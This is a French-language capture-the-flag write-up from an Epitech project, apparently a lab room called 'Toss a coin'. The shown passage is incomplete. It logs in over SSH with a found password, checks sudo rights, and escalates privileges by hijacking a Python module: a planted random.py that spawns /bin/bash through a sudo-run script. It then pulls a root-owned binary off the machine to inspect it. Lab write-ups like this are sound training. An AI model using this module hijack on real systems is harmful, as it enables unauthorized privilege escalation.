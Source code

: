 Ceci est la documentation pour le projet Epitech SOCAT. Il s'agit d'un CTF (capture the flag).

## Sujet Traité :

Etude des vulnérabilités de machines virtuelles.

## Liste non exhaustive des domaines que nous couvrirons :
Authentification, ACL, configuration, cryptographie, encodage, gestion des erreurs, protocoles, synchronisation, pièges de langage, escalade de privilèges, etc.



# Room 1 - Toss a coin 

## user.txt ?


## root.txt ?

### Jaskier


- Nous avons ce qui semble être le mot de passe de Jaskier, on peut se connecter en SSH à la machine en tant qu'utilisateur Jaskier.
    ```bash
    ssh jaskier@10.10.250.243
    ```
- Commençons par regarder ce qu'il y a dans le dossier personnel de Jaskier.
    ```bash
    ls -lha
    ```
- Il y a un script python. Il importe le module random et l'utilise pour sélectionner dix lignes aléatoires de la chanson.
- On vérifie ce que l'utilisateur Jaskier peut exécuter en tant que sudo afin de nous indiquer à qui nous allons élever nos privilèges en premier.
    ```bash
    sudo -l
    ```
- Nous pouvons exécuter ce script python dans notre dossier en tant que utilisateur yen.
- Un module est juste un fichier python avec des fonctions qui peuvent être référencées. Ainsi, lorsque la ligne d'importation aléatoire est exécutée, le script recherche ce fichier random.py. Nous pouvons savoir où il recherche ce fichier random.py.

    ```bash
  python3.6 -c 'import sys; print(sys.path)'
    ```
- Nous pouvons voir qu'il recherche le fichier random.py dans le dossier /home/jaskier (['']).
- Donc, si on crée un fichier random.py dans ce répertoire, le script python ferait référence à ce fichier car c'est le premier endroit où il vérifie.

   ```bash
    nano random.py
    ```
   ```python
    import os
    os.system("/bin/bash")
  ```
    
- Et maintenant, nous exécutons le script python en tant que sudo.
    ```bash
    sudo -u yen /usr/bin/python3.6 /home/jaskier/toss_a_coin.py
    ```
- Et nous obtenons un shell en tant qu'utilisateur yen.


### yen

- Commençons par regarder ce qu'il y a dans le dossier personnel de yen.
    ```bash
    ls -lha
    ```
  
- Nous avons un fichier qui appartient à root, mais lisible par yen. Il semble que nous ayons besoin d'un autre niveau de privesc.
- Une fois executé nous obtenons un segfault, après avoir vérifié avec valgrind on se rend compte que c'est un faux segfautl. Donc probablement pas un d'erreur mémoire exploitable. 
- Mettons le fichier dans machine hôte et regardons-le.
    ```bash
    python3 -m http.server 8000
    ```
- Sur notre machine hote
  ```bash
  wget http://10.10.250.243:8000/portals
  ```
  ```bash
  strings portals
  ```
    


# Room 2 - Yer a Wizard


# Room 3 - Yer a Wizard
